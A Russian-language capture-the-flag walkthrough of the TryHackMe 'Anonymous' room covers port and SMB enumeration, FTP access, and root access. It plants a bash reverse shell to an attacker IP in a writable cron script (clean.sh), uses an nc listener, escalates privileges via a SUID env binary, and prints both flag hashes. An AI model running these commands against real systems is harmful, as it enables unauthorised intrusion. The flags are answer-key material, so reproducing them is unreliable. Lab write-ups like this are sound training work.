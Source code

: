 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Anonymous](https://tryhackme.com/r/room/anonymous) 

Всего 1 заданиe:
## Задание 1
Попробуйте получить оба флага! Получите права root на машину и докажите, что вы понимаете основы! Это виртуальная 
машина, предназначенная для новичков. Получение обоих флагов потребует некоторых базовых знаний Linux и методов 
повышения привилегий.
-------------------------------------------------- ------------------
Для получения дополнительной информации о Linux посетите страницу  Learn Linux.

### Ответьте на вопросы ниже
Перечислите машины. Сколько портов открыто?
```commandline
nmap -sC -sV -p- <IP>
```
```commandline
4
```
Какая служба работает на порту 21?
```commandline
ftp
```
Какая служба работает на портах 139 и 445?
```commandline
smb
```
На компьютере пользователя есть общий ресурс. Как он называется?
```commandline
smbclient -L <IP>
```
```commandline
pics
```
пользователь.txt
```commandline
ftp 10.10.64.21
ls -la
cd scripts
ls -la
mget *
y
cat clean.sh 
cat removed_files.log 
cat to_do.txt 

vim clean.sh 
#!/bin/bash
bash -i >& /dev/tcp/<my_own_IP>/4444 0>&1
nc -nlvp 4444
ls
cat user.txt
```
```commandline
90d6f992585815ff991e68748c414740
```
корень.txt
```commandline
crontab -l
find / -user root -perm -u=s 2>/dev/null
env /bin/sh -p
cat /root/root.txt
```
```commandline
4d930091c31a622a7ed10f27999af363
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)